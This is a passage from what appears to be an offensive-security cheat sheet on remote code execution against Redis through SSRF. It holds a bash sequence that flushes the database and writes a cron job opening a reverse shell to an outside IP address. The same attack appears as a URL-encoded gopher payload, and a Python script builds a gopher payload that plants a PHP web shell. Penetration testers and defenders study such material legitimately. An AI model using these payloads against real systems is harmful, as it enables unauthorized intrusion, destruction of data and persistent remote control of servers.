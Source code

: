 - [Trying to hack Redis via HTTP requests](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)
- [SSRF Exploits against Redis](https://maxchadwick.xyz/blog/ssrf-exploits-against-redis)

**RCE via Cron** - [Gopher Attack Surfaces](https://blog.chaitin.cn/gopher-attack-surfaces/)

```bash
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
```

Gopher:

```bash
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

**RCE via Shell Upload (PHP)** - [Redis Getshell Summary](https://www.mdeditor.tw/pl/pBy0)

```python
#!/usr/bin/env python
# -*-coding:utf-8-*-

import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379" 
shell="\n\n<?php phpinfo();?>\n\n"
filename="shell.php"
path="/var" 
passwd=""

cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```
